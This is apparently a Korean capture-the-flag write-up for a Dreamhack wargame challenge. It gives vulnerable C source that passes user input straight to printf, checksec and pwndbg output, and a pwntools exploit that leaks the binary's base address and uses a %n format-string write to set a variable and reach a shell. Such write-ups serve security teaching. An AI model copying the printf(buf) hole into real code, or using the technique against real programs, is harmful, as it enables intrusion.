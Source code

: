 ```c
// Name: fsb_overwrite.c
// Compile: gcc -o fsb_overwrite fsb_overwrite.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_string(char *buf, size_t size) {
  ssize_t i = read(0, buf, size);
  if (i == -1) {
    perror("read");
    exit(1);
  }
  if (i < size) {
    if (i > 0 && buf[i - 1] == '\n') i--;
    buf[i] = 0;
  }
}

int changeme;

int main() {
  char buf[0x20];
  
  setbuf(stdout, NULL);
  
  while (1) {
    get_string(buf, 0x20);
    printf(buf);
    puts("");
    if (changeme == 1337) {
      system("/bin/sh");
    }
  }
}
```

```bash
$ checksec ./fsb_overwrite
[*] './fsb_overwrite'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 분석

## 보호 기법

NX, PIE가 적용되어 있으며, stack canary는 적용되어 있지 않고, Full RELRO가 적용되어 있다.

## 코드 분석

* `fsb_overwrite.c:28-29` : `get_string` 함수로 얻은 문자열 `buf`를 바로 `printf` 함수에 인자로 넣고 있으므로 format string bug를 활용한다면 임의주소 읽기 및 쓰기가 가능하다.

# 공격

vmmap을 활용하여 `fsb_overwrite`의 베이스를 확인해보면, `0x555555554000`임을 알 수 있다.

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 ./fsb_overwrite
    0x555555555000     0x555555556000 r-xp     1000   1000 ./fsb_overwrite
    0x555555556000     0x555555557000 r--p     1000   2000 ./fsb_overwrite
    0x555555557000     0x555555558000 r--p     1000   2000 ./fsb_overwrite
    0x555555558000     0x555555559000 rw-p     1000   3000 ./fsb_overwrite
...
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

또한, `main` 함수의 `printf` 함수 직전에 breakpoint를 설정하여 해당 위치에서 스택에 저장된 데이터들을 확인해보면, `$rsp+0x48` 위치에 코드영역의 특정 데이터의 주소를 저장하고 있음을 확인할 수 있다.

```bash
pwndbg> x/10gx $rsp
0x7fffffffe040: 0x0000006161616161      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x0000000000000000
0x7fffffffe060: 0x0000000000000000      0x46a6c73250bba100
0x7fffffffe070: 0x0000000000000001      0x00007ffff7db5d90
0x7fffffffe080: 0x0000000000000000      0x0000555555555293
```

위 정보들을 종합하면, `$rsp+0x48`에 저장된 값에서 `0x1293`을 빼주면 `fsb_overwrite`의 베이스를 알 수 있다는 사실을 알 수 있으며, 이를 활용하여 `changeme`의 주소를 알아낼 수 있다.
이를 종합하여 다음 익스플로잇 코드를 작성하면 flag를 얻을 수 있다.

```python
# Name: Format String Bug.py

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 9737
p = remote(HOST,PORT)
elf = ELF('./fsb_overwrite')

# Get address of changeme
p.send(b'%15$p')
leaked = int(p.recvline()[:-1], base=16)
code_base = leaked - 0x1293
changeme = code_base + elf.sym['changeme']

# Write 1337 to changeme
fstring = b'%1337c%8$n'.ljust(16)
fstring += p64(changeme)
p.sendline(fstring)

p.interactive()
```